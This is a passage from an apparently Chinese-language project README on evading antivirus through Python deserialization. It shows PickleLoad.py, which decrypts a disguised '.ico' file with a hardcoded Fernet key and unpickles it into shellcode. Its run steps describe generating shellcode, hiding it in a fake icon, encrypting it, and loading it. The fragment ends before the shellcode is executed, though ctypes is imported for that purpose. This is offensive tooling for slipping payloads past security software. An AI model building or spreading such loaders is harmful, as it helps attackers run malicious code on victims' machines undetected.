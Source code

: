 

### PickleLoad.py

```python
import pickle
import ctypes
from cryptography.fernet import Fernet

temp=open("Encrypt_test.ico","rb").read()
key = b'2cAx5afBvED2B7vanLMy8TvRT3hG6uIJukWD9nu56Yk='
f_obj=Fernet(key)
temp=f_obj.decrypt(temp)
shellcode=pickle.loads(temp)
```



## 项目运行

首先运行`GenerateShellcode.py`生成shellcode.txt

随后运行`PickleDump.py`生成test.ico, 并对shellcode.txt和test.ico进行加密, 加密后的文件为`Encrypt_shellcode.txt`和`Encrypt_test.ico`, 此时注意控制台输出的key值为`b'2cAx5afBvED2B7vanLMy8TvRT3hG6uIJukWD9nu56Yk='`(PickleLoad.py会用到)

![image-20221120224944318](Python反序列化免杀/image-20221120224944318.png)



打开`PickleLoad.py`, 将key值替换成上述生成的key值

![image-20221120225157291](Python反序列化免杀/image-20221120225157291.png)

